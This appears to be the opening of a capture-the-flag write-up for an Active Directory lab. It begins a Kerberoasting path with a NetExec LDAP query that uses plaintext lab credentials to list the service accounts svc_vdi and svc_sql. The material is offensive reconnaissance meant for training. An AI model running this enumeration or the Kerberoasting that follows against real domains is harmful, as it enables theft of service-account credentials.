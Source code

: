 Overall, the lab was a great success, with participants enjoying the challenges and learning new skills. The feedback received was overwhelmingly positive, with many participants expressing their appreciation for the opportunity to learn and collaborate in a supportive environment. We would like to extend our gratitude to [Div0](https://www.div0.sg/) and [Range Village](https://www.linkedin.com/company/the-range-village/) for hosting the event, and we look forward to sponsoring more events in the future!

# Flag 1: And, so it begins...

![](./assets/img/rv-sept/1.png)

## Path 1: Kerberoasting

Using the given credentials for `chloe.lim@antennae.rv`, we can start by enumerating the `antennae.rv` domain and identifying users with [Service Principal Names (SPNs)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names) set.

We can achieve this using an `LDAP` query with [NetExec's](https://www.netexec.wiki/ldap-protocol/query-ldap) `LDAP` flag, we'll find a couple of users with SPNs set:

```
~$ nxc ldap dc01.antennae.rv -u 'chloe.lim' -p 'BZCJsopuOPgH' --query "(&(objectClass=user)(servicePrincipalName=*))" "samAccountName servicePrincipalName"

LDAP        10.5.10.10      389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:antennae.rv) (signing:None) (channel binding:No TLS cert) 
LDAP        10.5.10.10      389    DC01             [+] antennae.rv\chloe.lim:BZCJsopuOPgH 

LDAP        10.5.10.10      389    DC01             [+] Response for object: CN=svc_vdi,CN=Users,DC=antennae,DC=rv
LDAP        10.5.10.10      389    DC01             sAMAccountName       svc_vdi
LDAP        10.5.10.10      389    DC01             servicePrincipalName HORIZON/VirtualDesktop
LDAP        10.5.10.10      389    DC01                                  TERMSRV/vdi.antennae.rv
LDAP        10.5.10.10      389    DC01                                  HTTPS/vdi.antennae.rv
LDAP        10.5.10.10      389    DC01                                  HORIZON/vdi
LDAP        10.5.10.10      389    DC01                                  HORIZON/vdi.antennae.rv
LDAP        10.5.10.10      389    DC01             [+] Response for object: CN=svc_sql,CN=Users,DC=antennae,DC=rv
LDAP        10.5.10.10      389    DC01             sAMAccountName       svc_sql
LDAP        10.5.10.10      389    DC01             servicePrincipalName MSSQLSvc/sql01.antennae.rv:1433
LDAP        10.5.10.10      389    DC01                                  MSSQLSvc/sql01.antennae.rv
```
